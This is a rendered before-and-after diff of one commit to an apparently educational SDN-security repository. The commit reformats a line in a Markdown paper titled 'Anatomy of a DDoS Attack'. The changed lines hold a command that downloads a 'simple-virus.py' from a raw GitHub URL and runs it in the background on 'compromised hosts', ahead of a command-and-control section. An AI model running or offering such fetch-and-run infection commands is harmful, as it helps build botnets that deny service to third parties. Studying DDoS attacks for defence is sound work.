

Before and after one commit to ozeliurs/SDN-Security, a Markdown page: papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
fix: wrapping

````diff
--- a/papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md
+++ b/papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md
@@ -82,7 +82,10 @@ The idea is that the attacker can host a simple page that will be read by the vi
 
 The virus can be launched on the compromised hosts using the following command:
 
-`wget https://raw.githubusercontent.com/ozeliurs/SDN-Security/main/papers/.project-files/ddos-attack/simple-virus.py -O virus.py && python3 virus.py &`
+```bash
+wget https://raw.githubusercontent.com/ozeliurs/SDN-Security/main/papers/.project-files/ddos-attack/simple-virus.py
+python3 simple-virus.py &
+```
 
 ## Control and Command Server
 
````
